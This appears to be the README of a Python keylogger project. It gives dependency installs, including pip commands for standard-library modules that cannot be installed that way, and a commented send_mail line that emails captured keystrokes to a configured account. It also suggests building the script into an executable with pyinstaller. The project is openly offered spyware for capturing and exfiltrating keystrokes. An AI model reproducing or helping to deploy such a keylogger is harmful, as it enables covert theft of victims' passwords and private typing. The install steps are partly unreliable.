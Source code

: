 # key_logger

#Install dependency.

pip install pynput

pip install threading

pip install smtplib

pip install os

pip install sys

pip install  shutil

pip install subprocess

pip install time

Some module deafult install in your ide,i am use pycharm..!

In this code for enter your email an password if this code send the keys in your emails.

#send_mail("#enter your emai address", "#enter your password", "\n\n" + store_keys)

set the file convert to excutable,do you use pyinstaller to convert exe file.. more detail : https://youtu.be/UZX5kH72Yx4
